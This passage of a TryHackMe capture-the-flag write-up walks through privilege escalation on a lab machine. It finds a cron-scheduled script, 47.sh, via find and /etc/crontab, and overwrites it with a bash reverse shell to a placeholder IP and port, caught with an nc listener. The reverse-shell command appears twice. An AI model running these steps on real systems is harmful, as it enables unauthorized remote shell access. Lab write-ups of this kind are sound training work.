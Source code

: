   ```bash

lets search for it by the `find` command by searching for all the files that `Viktor` owns, and the `47.sh` is the target file.

```bash
find / -user viktor 2>/dev/null | grep .sh
```

Now lets put the `bash` reverse shell script in the file, which you can get from: [GTFobins](https://gtfobins.github.io/gtfobins/bash/)

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/{IP}/{port} <&1'" > 47.sh
```

And wait till the scheduled process runs the script file. 
```bash
nc -lvnp {port}
```

#### The Hint based way

The hint on `tryhackme` says to wait a train or something, the works with schedules, and the scheduled things on Linux is the `crontabs`, and you can find the `crontab` files by this command....

```bash
find / -name crontab 2>/dev/null
```

At this point we are good, but we found a lot of `crontab` files, the file`/etc/crontab` manages the system wide `crontabs` and if we displayed what's in it by `cat`:

```bash
cat /etc/crontab
```

we will find that there is a scheduled process to run a script called `47.sh` in the directory `/opt/scripts`, so like the previous solution let's put the `bash` reverse shell script in it and wait till the script runs.

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/{IP}/{port} <&1'" > 47.sh
```

And listen from another terminal
```bash
nc -lvnp {port}
```

---

#### Silvio's Flag

While you still on the `RevShell` of dalia go and list the commands that dalia allowed to run as `sudo`

```bash
sudo -l
```
